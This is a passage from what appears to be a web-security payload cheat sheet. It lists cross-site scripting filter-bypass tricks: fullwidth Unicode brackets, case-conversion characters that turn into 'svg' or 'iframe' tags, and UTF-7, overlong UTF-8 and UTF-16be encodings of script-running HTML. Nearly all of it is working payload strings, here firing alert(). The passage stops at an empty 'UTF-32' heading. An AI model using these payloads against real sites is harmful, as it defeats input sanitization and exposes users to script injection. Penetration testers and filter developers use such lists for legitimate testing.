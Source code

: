 
An example payload could be `ʺ＞＜svg onload=alert(/XSS/)＞/`, which would look like that after being URL encoded:

```javascript
%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
```


When Unicode characters are converted to another case, they might bypass a filter look for specific keywords.

| Unicode  | Transform | Character |
| -------- | --------- | --------- |
| `İ` (%c4%b0) | `toLowerCase()` | i |
| `ı` (%c4%b1) | `toUpperCase()` | I |
| `ſ` (%c5%bf) | `toUpperCase()` | S |
| `K` (%E2%84) | `toLowerCase()` | k |

The following payloads become valid HTML tags after being converted.

```html
<ſvg onload=... >
<ıframe id=x onload=>
```


## Bypass using UTF-7

```javascript
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

## Bypass using UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

## Bypass using UTF-16be

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

## Bypass using UTF-32
